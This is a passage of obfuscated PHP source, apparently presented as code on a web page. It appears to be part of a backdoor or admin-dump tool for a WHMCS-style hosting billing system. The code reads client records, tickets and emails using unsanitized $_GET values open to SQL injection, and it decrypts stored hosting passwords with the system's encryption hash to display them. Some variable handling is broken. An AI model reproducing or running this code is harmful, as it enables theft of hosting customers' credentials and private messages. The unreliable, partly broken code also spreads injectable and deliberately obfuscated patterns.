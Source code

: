 </form>";break;case 12:if($_GET["m"]){$ybuhhryyf="v";${${"GLOBALS"}["iahgcggxrfyj"]}=mysql_query("SELECT * FROM tblemails where id='".$_GET["m"]."'");${"GLOBALS"}["zshhnaron"]="query1";${${"GLOBALS"}["sqgchrxwl"]}=mysql_fetch_array(${${"GLOBALS"}["zshhnaron"]},true);echo(${$ybuhhryyf}["subject"]);echo("<br>");echo(${${"GLOBALS"}["sqgchrxwl"]}["message"]);exit;}echo("<pre>");${${"GLOBALS"}["bbbwyjm"]}=mysql_query("SELECT * FROM tblclients where id='".$_GET["id"]."'");while(${${"GLOBALS"}["sqgchrxwl"]}=mysql_fetch_array(${${"GLOBALS"}["iahgcggxrfyj"]},true)){print_r(${${"GLOBALS"}["sqgchrxwl"]});}echo("</pre>");${${"GLOBALS"}["apwiougyiqkh"]}=mysql_query("SELECT * FROM tbltickets where userid='".$_GET["id"]."'");while(${${"GLOBALS"}["nbskojmpbuf"]}=mysql_fetch_array(${${"GLOBALS"}["apwiougyiqkh"]})){${"GLOBALS"}["usadrhsnw"]="v2";${"GLOBALS"}["xmsrolc"]="v";$otimxonuk="v";echo("<br><br><center><table border=1>");echo("<tr><td>".${${"GLOBALS"}["xmsrolc"]}["title"]."<br>".${$otimxonuk}["date"]."</td></tr>");$vobpdcslh="v";echo("<tr><td>".(${${"GLOBALS"}["sqgchrxwl"]}["message"])."</td></tr>");${${"GLOBALS"}["weufxkdwhjrs"]}=mysql_query("select * from tblticketreplies where tid='".${$vobpdcslh}["id"]."'");while(${${"GLOBALS"}["usadrhsnw"]}=mysql_fetch_array(${${"GLOBALS"}["weufxkdwhjrs"]})){$fbfxhedwamcx="v2";echo("<tr><td>".(${$fbfxhedwamcx}["message"])."</td></tr>");}echo("</table><br><br>");}${${"GLOBALS"}["kqkvclxesp"]}=mysql_query("SELECT * FROM tblhosting  where userid='".$_GET["id"]."'");while(${${"GLOBALS"}["nlybchj"]}=mysql_fetch_array(${$civmqlvwy})){$sfpmjxwgs="cc_encryption_hash";${"GLOBALS"}["tojungu"]="v";${${"GLOBALS"}["tmfxusug"]}=decrypt(${${"GLOBALS"}["tojungu"]}["password"],${$sfpmjxwgs});if(${${"GLOBALS"}["sqgchrxwl"]}["username"]){${"GLOBALS"}["rxdkwscyogh"]="v";$fksxkjdz="v";echo("<br><table border='0'>");${"GLOBALS"}["xvmkdaf"]="v";echo("<tr><td>Domain</td><td>".${$fksxkjdz}["domain"]."</td></tr>");echo("<tr><td>Username</td><td>".${${"GLOBALS"}["rxdkwscyogh"]}["username"]."</td></tr>");echo("<tr><td>Password</td><td>$password</td></tr>");echo("<tr><td>Notes</td><td>".nl2br(${${"GLOBALS"}["xvmkdaf"]}["notes"])."</td></tr>");echo"</table></center>";}}echo("<h1>Client mails</h1><br><br>");${${"GLOBALS"}["apwiougyiqkh"]}=mysql_query("SELECT * FROM tblemails  where userid='".$_GET["id"]."'");echo("<table><tr><td>Subject</td><td>Date</td></tr>");while(${$sbesjbau}=mysql_fetch_array(${${"GLOBALS"}["apwiougyiqkh"]})){$ypwwwsesk="v";echo("<tr><td><a href='?p=12&id=".$_GET["id"]."&m=".${${"GLOBALS"}["sqgchrxwl"]}["id"]."'>".${$ypwwwsesk}["subject"]."</a></td><td>".${${"GLOBALS"}["sqgchrxwl"]}["date"]."</td></tr>");}echo("</table>");break;}echo "


";
?>
{% endhighlight %}
